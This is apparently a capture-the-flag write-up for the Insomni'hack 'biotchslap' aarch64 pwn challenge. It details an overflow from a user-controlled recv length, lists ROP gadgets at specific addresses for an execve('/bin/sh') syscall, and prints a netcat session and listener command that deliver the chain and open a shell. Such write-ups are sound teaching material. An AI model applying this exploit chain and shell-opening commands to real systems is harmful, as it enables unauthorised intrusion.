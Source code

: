 ## Infos

**Author**: grimmlin  
**Category**: Pwn  
**Difficulty**: Medium  

## Description:
  Ever dreamt about slapping someone in the face across the Internet ? Dream no more!   
  running on biotchslap.insomni.hack:1070 with -nx, not chrooted

## Solution:

This challenge was just a nice way to reuse the qemu patches, and to introduce aarch64 ROP in a somewhat easy challenge.
As can be seen in the handle_biotch func, we control the length of the last recv, allowing us to easy control $pc.

The binary being static, a lot of gadgets can be found, and I chose a path that could allow me to do a syscall with execve.

First gadget is @ 0x447030

    ldp x15, x16, [sp, #0x90]   
    ldp x17, x18, [sp, #0xa0]   
    ldp x29, x30, [sp], #0xc0   
    ret

This will allow us to control x16, which will allow us to pop all registers in the next gadget @ 0x446278 :   

    ldp x0, x1, [sp, #0x40]   
    ldp x2, x3, [sp, #0x30]   
    ldp x4, x5, [sp, #0x20]   
    ldp x6, x7, [sp, #0x10]   
    ldp x8, x9, [sp], #0xd0   
    ldp x17, x30, [sp], #0x10   
    br x16

Now the last gadget needed is @ 0x40dd1c : 

    svc 0

Now to exploit this service, we can use ```/bin/sh``` as a username. The name being at a static position in the .data section, it can be passed to the execve syscall.
The next step is to listen from the attacker machine and sends a number big enough to cause the overflow, and the the packed ropchain.

    nc biotchslap.insomni.hack 1070   
    Enter your name :/bin/sh   
    Hello /bin/sh! Who shall we biotch-slap today ?   
    Enter IP address : 192.168.110.123   
    Alright, /bin/sh how much slaps ? 4   
    Sending 4 SLAPs   
    Checking status   
    Hope you liked it! Next version will feature a webcam to capture those treasure moments!   
    cat flag   
    INS{if_only_that_dream_machine_came_true...}

Of course on the 192.168.110.123 host we need to listen on port 1070 and send the exploit :   

    (python -u poc.py;cat) | nc -l -p 1070


